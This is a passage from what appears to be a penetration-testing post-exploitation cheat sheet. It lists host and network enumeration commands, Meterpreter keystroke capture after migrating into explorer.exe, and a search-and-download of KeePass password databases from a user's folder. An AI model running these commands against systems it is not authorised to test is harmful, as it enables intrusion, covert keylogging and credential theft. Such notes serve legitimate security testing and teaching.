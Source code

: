 ```bash
cat /etc/group
```

6. Check for fileshares

```powershell
net share
```

7. Check network information

```bash
meterpreter> ifconfig
meterpreter> run winenum  # for windowos

# otherwise
ip a  # for linux
ipconfig /all  # for windows
```

8. Windows specific, discover other hostname within domain

```powershell
net view  # displays other hosts if network discovery is enabled
```

### docs, logs, files and keystrokes

> Files, logs, docs and keyboard interaction may reveal useraccounts, passwords and other information of the internal network

#### Keystrokes

Keystrokes are collected, depending on the user and application context (if used with metasploit `keyscan_start` and `keylogrecorder`)  

```bash
meterpreter> migrate <pidExplorer.exe>
meterpreter> keyscan_start
meterpreter> keyscan_dump # shows catched keystrokes
```

- `keylogrecorder` script migrates autonatically to `explorer.exe` and saves strokes to file

```bash
meterpreter> run keylogrecorder -c 0 # c 0 -> use key presses
```

#### Files

> Check configs, logs, and login information of installed software (FTP, browser, messenger apps...)

- Search for keypass files

```bash
meterpreter> search -d C:\\Users\\<username>\\ -f *.kdbx
meterpreter> download bla.kdbx
```
